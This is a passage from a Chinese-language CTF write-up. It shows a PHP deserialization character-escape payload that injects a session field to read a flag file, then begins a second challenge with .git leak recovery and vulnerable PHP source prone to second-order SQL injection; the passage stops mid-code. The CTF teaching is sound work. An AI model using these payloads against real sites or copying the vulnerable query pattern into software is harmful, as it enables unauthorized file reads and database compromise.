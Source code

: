 本题的关键问题在于，对于序列化后的数据进行过滤，导致反序列化时出错。

首先存在明显的变量覆盖，显然可以覆盖的变量只有 `$_SESSION`，随后注意到如果指定 `img_path` 那么 `$SESSION[img]` 将被哈希，变得不可控。而下方 `file_get_contents` 又提醒我们必须控制 `img` 字段，因此需要通过反序列化字符逃逸来实现。

先通过提示在 `phpinfo` 中发现 `d0g3_f1ag.php` 文件，这就是我们要放进 `img` 的文件了。随后利用 `filter` 函数的过滤功能吞掉 24 个字符，使得反序列化时多读入后 24 字符并舍弃后面的所有内容。具体地说，构造：

```
_SESSION[user]=flagflagflagflagflagflag&_SESSION[function]=a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:2:"dd";s:1:"a";}
```

那么序列化后数据变为：

```
a:3:{s:4:"user";s:24:"flagflagflagflagflagflag";s:8:"function";s:59:"a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:2:"dd";s:1:"a";}";s:3:"img";s:28:"L3VwbG9hZC9ndWVzdF9pbWcuanBn";}
```

再经过 `filter`，变成：

```
a:3:{s:4:"user";s:24:"";s:8:"function";s:59:"a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:2:"dd";s:1:"a";}";s:3:"img";s:28:"L3VwbG9hZC9ndWVzdF9pbWcuanBn";}
```

此时，`user` 字段向后读 24 字符，其值为 `";s:8:"function";s:59:"a`，随后是我们控制的 `img` 字段和 `dd` 字段（注意需满足长度为 59），`}` 后的内容被忽略。此时我们就成功控制了 `img`，读到了 `d0g3_f1ag.php`。文件内容指向另一个文件，同样方法读取即可。

## \[网鼎杯 2018\] Comment

存在 `.git` 泄露，`GitHack` 发现恢复的文件不全，然后通过 `git log --reflog` 发现了一个 `stashed` 的记录，用 `git reset --hard xxx` 回滚到该记录得到完整代码：

```php
<?php
include "mysql.php";
session_start();
if($_SESSION['login'] !='yes'){
    header("Location: ./login.php");
    die();
}
if(isset($_GET['do'])){
switch ($_GET['do'])
{
case 'write':
    $category = addslashes($_POST['category']);
    $title = addslashes($_POST['title']);
    $content = addslashes($_POST['content']);
    $sql = "insert into board
            set category = '$category',
                title = '$title',
                content = '$content'";
    $result = mysql_query($sql);
    header("Location: ./index.php");
    break;
case 'comment':
    $bo_id = addslashes($_POST['bo_id']);
    $sql = "select category from board where id='$bo_id'";
    $result = mysql_query($sql);
    $num = mysql_num_rows($result);
    if($num>0){
    $category = mysql_fetch_array($result)['category'];
    $content = addslashes($_POST['content']);
    $sql = "insert into comment
            set category = '$category',
                content = '$content',
                bo_id = '$bo_id'";
```